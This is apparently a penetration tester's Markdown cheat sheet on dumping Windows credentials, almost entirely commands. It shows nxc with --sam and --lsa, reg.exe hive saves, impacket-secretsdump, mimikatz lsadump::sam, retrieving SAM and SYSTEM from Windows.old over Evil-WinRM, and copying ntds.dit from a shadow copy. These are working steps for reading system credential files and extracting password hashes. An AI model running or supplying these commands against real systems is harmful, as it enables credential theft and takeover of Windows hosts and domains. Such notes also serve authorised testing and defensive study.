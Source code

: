 # SAM & LSA Dumping
## Summary


```bash
nxc smb <target-ip> --local-auth -u <admin> -p <password> --sam
nxc smb <target-ip> --local-auth -u <admin> -p <password> --lsa

reg.exe save hklm\sam C:\sam.hive
reg.exe save hklm\security C:\security.hive
reg.exe save hklm\system C:\system.hive


impacket-secretsdump -sam sam.hive -security security.hive -system system.hive LOCAL

secretsdump.py -sam SAM -system SYSTEM LOCAL

.\mimikatz.exe privilege::debug token::elevate lsadump::sam
```

## Windows.OLD
The **Windows.old** folder is a directory automatically created by Windows when you **upgrade your operating system** (e.g., upgrading from Windows 10 to Windows 11, or installing a major feature update).
It contains a complete copy of your **previous Windows installation** files, settings, and user data. 
Because of this, we can get extract the old **SAM/SYSTEM**, and then crack.
```bash

# windows.old, dump sam system 
*Evil-WinRM* PS C:\windows.old\windows\system32> download SAM
*Evil-WinRM* PS C:\windows.old\windows\system32> download SYSTESM

secretsdump.py -sam SAM -system SYSTEM LOCAL

```

## Shadow Copies - VSS

```powershell
vshadow.exe -nw -p C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```